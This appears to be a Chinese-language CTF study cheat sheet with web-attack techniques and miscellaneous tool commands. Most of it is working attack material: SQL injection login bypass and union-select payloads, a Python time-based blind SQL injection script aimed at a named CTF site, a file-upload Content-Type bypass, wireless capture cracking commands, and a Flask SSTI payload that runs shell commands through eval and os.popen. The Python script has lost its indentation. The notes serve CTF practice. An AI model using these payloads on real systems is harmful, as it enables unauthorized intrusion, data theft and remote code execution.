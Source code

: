# 学习基本思路

    * 第一阶段，拿到题目要能看懂
    * 第二阶段，分析出题目逻辑

    * 做了一个月题啥也不会也是正常的...

    * 学习曲线坑爹，怎么开始不重要，但是一定要坚持下来

    * 保持练习强度，量变引起质变，瓶颈期，不存在的
    * 新手过招，靠的是技巧,高手过招，靠的是技术

# WEB
.index.php.swp 文件可能隐藏源代码
16进制编码可以绕过注入

## 简单绕过，万能密码

    uname=admin

    &passwd=admin'||'1'='1

    &submit=Submit
## 回显注入
?name=admin' and 1=2 union select 1,2,group_concat(flag) from flag--+
## 延时注入
import requests

import string

s=requests.session()

url="http://ctf5.shiyanbar.com/web/wonderkun/index.php"

flag=''

guess=string.lowercase+string.uppercase+string.digits

for i in range(33):

for st in guess:

headers={"x-forwarded-for":"1'+"+"(select case when(substr((select flag from flag) from %d for 1)='%s') then sleep(5) else 1 end) and '1'='1" %(i,st)}

try:

res=s.get(url,headers=headers,timeout=4)

except requests.exceptions.ReadTimeout:

flag+=st

print "flag:",flag

break

print "result:"+flag

## 图片上传
upload success, but not php!
multipart/form-data变换一下大小写，再把第二个Content-Type改成图片类
## kindeditor4.1.7

泄漏路径问题，漏洞根源位于/php/file_manager_json.php。

#杂碎

培根密码,当铺密码解密，JS/VBS/ASP加密解密  
cap无线密码破解-aircrack-win  
cap包无线解密，airdecap-ng -e SSID -p PASSWORD
MP3Stego Decode.exe -X -P PASSWORD
rz sz命令
## string 命令提取字符串，tr去除换行
strings qweqwe.pcapng | grep '^[a-z0-9]\{14\}$' | tr -d '\n' > test.txt  

## 工具
cheat engine
## 隐写
outguess -r 图片名 文件名

## flask ssti

{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {% for b in c.__init__.func_globals.values() %} {% if b.__class__ == {}.__class__ %} {% if 'eval' in b.keys() %} {{ b['eval']('__import__("os").popen("ls").read()') }} {% endif %} {% endif %} {% endfor %} {% endif %} {% endfor %} 
